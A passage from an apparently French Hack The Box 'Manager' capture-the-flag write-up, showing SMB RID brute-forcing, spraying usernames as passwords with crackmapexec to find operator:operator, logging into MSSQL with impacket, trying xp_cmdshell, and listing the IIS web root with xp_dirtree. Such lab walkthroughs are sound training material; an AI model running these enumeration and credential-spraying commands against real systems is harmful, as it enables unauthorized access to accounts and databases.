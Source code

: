 ```
crackmapexec smb manager.htb -u guest -p '' --rid-brute
```

![RID-Brute-forcing](/images/HTB-Manager/rid-bruteforcing.png)

Je ne veux que les lignes avec des noms d'utilisateur, je les copie donc dans un fichier (à partir de l'utilisateur `Zhong`).

![Users-from-RID-brute-forcing](/images/HTB-Manager/smb-list.png)

J'en extrais les noms d'utilisateurs et je les garde dans un autre fichier.

```
awk -F': ' '{split($NF, a, "\\"); split(a[2], b, " "); print tolower(b[1])}' smb-output.txt > smb-users.txt
```

![Domain-users-list](/images/HTB-Manager/smb-users.png)

Essayons de trouver les comptes qui utilisent leur nom d'utilisateur comme mot de passe.

```
crackmapexec smb manager.htb -u $(cat ~/Machines/HTB/Manager/smb-users.txt) -p $(cat ~/Machines/HTB/Manager/smb-users.txt) --continue-on-success
```

La paire `operator:operator` est un succès!

![SMB-login-credentials](/images/HTB-Manager/smb-login.png)

Il n'y a pas de partages accessibles avec cet utilisateur, je porte mon attention sur la base de données MSSQL.

```
crackmapexec mssql manager.htb -u operator -p operator
```

Il s'avère que je peux accéder à la base de données avec les mêmes identifiants smb.

![MSSQL-login-credentials](/images/HTB-Manager/MSSQL-login.png)

```
impacket-mssqlclient operator:operator@dc01.manager.htb -windows-auth
```
![MSSQL-database-accessed](/images/HTB-Manager/MSSQL-ACCESS.png)

J'essaie d'activer `xp_cmdshell` mais cela échoue.

> `xp_cmdshell` est une fonctionnalité de Microsoft SQL Server qui permet aux utilisateurs d'exécuter des commandes des commandes pour interagir avec le système d'exploitation depuis SQL Server.

![xp-cmdshell-failure](/images/HTB-Manager/xp-cmdshell.png)

Je liste le contenu de la base de données avec `xp_dirtree`, la racine web de Microsoft IIS se trouve à `C:\inetpub\wwwroot`.

```
xp_dirtree C:\inetpub\wwwroot
```
